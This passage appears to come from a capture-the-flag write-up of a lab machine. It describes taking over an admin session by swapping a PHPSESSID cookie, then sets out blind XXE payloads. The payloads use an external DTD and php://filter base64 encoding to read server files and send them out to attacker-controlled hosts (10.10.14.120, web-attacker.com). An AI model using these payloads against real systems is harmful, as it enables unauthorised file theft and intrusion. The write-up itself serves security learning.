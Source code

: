 ~~~
~~~

Now for admin panel , i used this token and replace the PHPSESSID with mine..!!!

After i refreshed ..!!!

GOT ADMIN ..!!!

![[got admin.png]]

hola...!!!Got admin panel

There i can see registration page for Pollution API

![[registration form api.png]]

Here we can see API registration form

We have to bypass this too...So I registered a account and intercepted a request.

There the data transferred like this ...!!

~~~
manage_api=<?xml version="1.0" ecoding="UTF-8"?>[<!ENTITY %xxe SYSTEM "http://10.10.14.120/mal.dtd"> %xxe;]><root><method>POST</method><uri>/auth/register<uri></uri><user><username>god</username><password>god</password><</user></root> ]
~~~

Yes there may xml injection..!!!
SO i refer this link,

https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity?ref=hacktrickz.xyz#blind-ssrf-exfiltrate-data-out-of-band

XXE Injection for File read

Although regular payloads do not work, we can attempt an XXE Injection. To overcome this issue, we can generate a DTD file and prompt the website to process it by sending a GET request. Following some experimentation, I discovered that by utilizing the php://filter/ approach and encoding the information using base64, I was able to access some of the files.xxe

I used this payload 

~~~
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
~~~

Modified for me :

~~~
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.10.14.120/?file=%file;'>">
%eval;
%exfiltrate;
~~~
